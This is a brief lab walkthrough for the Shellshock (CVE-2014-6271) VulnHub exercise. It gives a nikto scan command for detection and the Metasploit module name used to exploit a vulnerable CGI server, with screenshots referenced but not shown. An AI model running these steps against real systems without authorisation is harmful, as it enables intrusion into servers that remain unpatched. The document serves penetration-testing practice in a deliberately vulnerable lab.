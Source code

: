 # What is shellshock

https://en.wikipedia.org/wiki/Shellshock_(software_bug)

Lab Download:

https://www.vulnhub.com/entry/pentester-lab-cve-2014-6271-shellshock,104/

Vulnerability detection

<code> nikto -h ipadress </code>

![1](https://user-images.githubusercontent.com/32979760/112722613-afb9a400-8f1b-11eb-905b-f7ed9569f8db.PNG)

Shellshock Exploit

Open msfconsole

<code>use exploit/multi/http/apache_mod_cgi_bash_env_exec</code>

![2](https://user-images.githubusercontent.com/32979760/112722709-235bb100-8f1c-11eb-8c99-27fcd28bc59c.PNG)

![3](https://user-images.githubusercontent.com/32979760/112722737-3f5f5280-8f1c-11eb-956f-7677cf99936f.PNG)

As you can see we hacked the system.
